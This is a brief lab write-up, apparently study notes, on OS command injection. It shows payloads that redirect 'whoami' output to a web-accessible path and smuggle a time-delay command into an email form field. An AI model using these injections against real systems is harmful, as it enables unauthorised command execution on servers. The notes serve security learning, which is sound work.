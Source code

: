 Putting whatever command and then redirecting the output of `whoami` to the file in the accessible route:
![](imgs/os_command_injection_output_Redirected.png)

Then we visit the route:
![](imgs/os_command_injection_output_Redirected-1.png)

I like more this command injection, without using pipelines:
`& whoami > /var/www/images/output.txt #`
![](imgs/os_command_injection_output_Redirected-2.png)

Also, we can make the execution of our commands inside `$`:
`email=invalid%40example.com%3b+$(sleep+5)+%23`
![](imgs/os_command_injection_output_Redirected-3.png)